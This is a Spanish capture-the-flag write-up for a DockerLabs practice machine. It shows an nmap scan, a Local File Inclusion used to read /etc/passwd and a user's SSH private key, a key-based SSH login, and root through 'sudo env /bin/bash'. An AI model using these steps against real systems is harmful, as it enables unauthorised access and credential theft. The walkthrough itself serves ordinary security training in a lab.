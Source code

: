 # pntopntobarra

Maquina pntopntobarra de [DockerLabs](https://dockerlabs.es)

![dock](../../../maquina-pntopntobarra/imagenes/dock.png)

Autor: yo ([maciiii\_\_\_](https://instagram.com/macim0_))

Dificultad: Fácil

## INTRUSION

Comenzamos haciendo un escaneo de nmap a la ip 172.17.0.2.

```css
sudo nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 18 23:05:22 2024 as: nmap -p- -sS --min-rate 5000 -n --open -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

# Nmap done at Sun Aug 18 23:05:24 2024 -- 1 IP address (1 host up) scanned in 1.76 seconds

```

Vemos el puerto 22 y 80 abierto, nada interesante por lo que iremos directo al puerto 80 desde el navegador.

### PUERTO 80:

![80](../../../maquina-pntopntobarra/imagenes/80.png)

Parece un tipo de advertencia y nos nombra un "LeFvIrus", si vemos las letras en mayuscula seria "LFI", por lo que podria tratar de un `Local File Inclusion`, sabiendo eso podemos entrar a donde dice "Ejemplos de computadoras infectadas" y nos redirige a un ".php" que dice `Error al cargar el archivo.` pero en la barra de busqueda pone `http://172.17.0.2/ejemplos.php?images=./ejemplo1.png` por lo que cambiamos el "./ejemplo1.png" por `/etc/passwd`. Como hay un usuario llamado "nico" podemos ver si se puede leer su clave privada de ssh, simplemente ponemos "/home/nico/.ssh/id\_rsa" y listo. Al enviarlo podemos ver la clave privada de el usuario nico. Nos copiamos la clave a nuestra maquina local a un archivo llamado "id\_rsa", le damos permisos con `chmod 600 id_rsa` y luego entramos sin contraseña usando `ssh -i id_rsa nico@172.17.0.2`.

## ESCALADA DE PRIVILEGIOS

Una vez dentro seremos el usuario nico, al ejecutar `sudo -l` se ve que podemos ejecutar como root el binario "env", por lo que simplemente ponemos:

```css
sudo env /bin/bash
```

y listo, somos root:

![root](../../../maquina-pntopntobarra/imagenes/root.png)

Gracias.....

